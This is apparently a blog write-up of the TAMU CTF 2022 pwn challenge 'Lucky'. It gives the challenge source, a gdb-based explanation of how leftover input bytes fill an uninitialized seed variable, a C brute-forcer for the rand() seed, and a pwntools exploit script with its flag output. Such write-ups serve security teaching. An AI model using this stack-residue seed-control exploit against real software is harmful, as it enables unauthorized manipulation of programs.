 ```yaml
---
layout: post
title:  "[TAMU ctf] Lucky"
date:   "2022-04-19"
categories: Pwn
author: Eurus
---
```


This is the output of checksec over the ELF of this challenge.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

In all of the challenges of this ctf the authors provide us also the sourcecode of the binary.
Here is the source code for this challenge

```c
#include <stdio.h>
#include <stdlib.h>

void welcome() {
    char buf[16];
    printf("Enter your name: ");
    fgets(buf, sizeof(buf), stdin);
    printf("\nWelcome, %s\nIf you're super lucky, you might get a flag! ", buf);
}

int seed() {
    char msg[] = "GLHF :D";
    printf("%s\n", msg);
    int lol;
    return lol;
}

void win() {
    char flag[64] = {0};
    FILE* f = fopen("flag.txt", "r");
    fread(flag, 1, sizeof(flag), f);
    printf("Nice work! Here's the flag: %s\n", flag);
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    welcome();
    srand(seed());

    int key0 = rand() == 306291429;
    int key1 = rand() == 442612432;
    int key2 = rand() == 110107425;

    if (key0 && key1 && key2) {
        win();
    } else {
        printf("Looks like you weren't lucky enough. Better luck next time!\n");
    }
}
```

The probram will print the flag only if the rand will output some values.

The interesting part in this source code is in the function seed used to obtain a seed for the srand function.

```c
int seed() {
    char msg[] = "GLHF :D";
    printf("%s\n", msg);
    int lol;
    return lol;
}
```

this function return the value of a variable that is not initialized and this could lead to undetermined behaviour of the program. 
The problem is that as we can see from gdb we can control what the lol variable contain. 

```c
void welcome() {
    char buf[16];
    printf("Enter your name: ");
    fgets(buf, sizeof(buf), stdin);
    printf("\nWelcome, %s\nIf you're super lucky, you might get a flag! ", buf);
}
```

The welcome function ask us 16 bytes that will be stored in a buffer and this if fine. The problem is that with this input we can control what the lol variable will contain.

Here I send in the buffer the string "ABCDEFGHIJKLMNO" (15bytes because fgets will read 15 bytes and put null char at the end of the buffer)

![l1](/assets/posts_images/lucky_tamu2022/l1.png)

In the seed finction we can see that the variable lol will contain the value 0x4f4e4d that is 'ONM'so we can control the seed value. 

![l2](/assets/posts_images/lucky_tamu2022/l2.png)

Now we need to find a seed value that will return 306291429, 442612432, 110107425 for the first three value. I wrote a little program in c in order to find this value.

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    for(unsigned int i = 0; i<0xffffff;i++){
    	srand(i);
    	if(!(rand() == 306291429))continue;
    	if(!(rand() == 442612432))continue;
    	if(!(rand() == 110107425))continue;
	printf("%u", i);
    }
}
# output 5649426 == 0x563412
```

With this value found we have all in order to win this challenge.

This is the script

```python
from pwn import *

p = remote("tamuctf.com", 443, ssl=True, sni="lucky")

context.binary = elf = ELF('./lucky')
#p = elf.process()
#gdb.attach(p)

pyl = b'ABCDEFGHIJKL\x12\x34\x56'
p.sendlineafter(b'Enter your name: ', pyl)
p.interactive()

```

And this is the output:

```text
eurus@node-01-00:~/Scaricati/lucky$ python3 solver-template.py 
[+] Opening connection to tamuctf.com on port 443: Done
[*] Switching to interactive mode

Welcome, ABCDEFGHIJKL\x12V
If you're super lucky, you might get a flag! GLHF :D
Nice work! Here's the flag: gigem{un1n1t14l1z3d_m3m0ry_15_r4nd0m_r1ght}
```















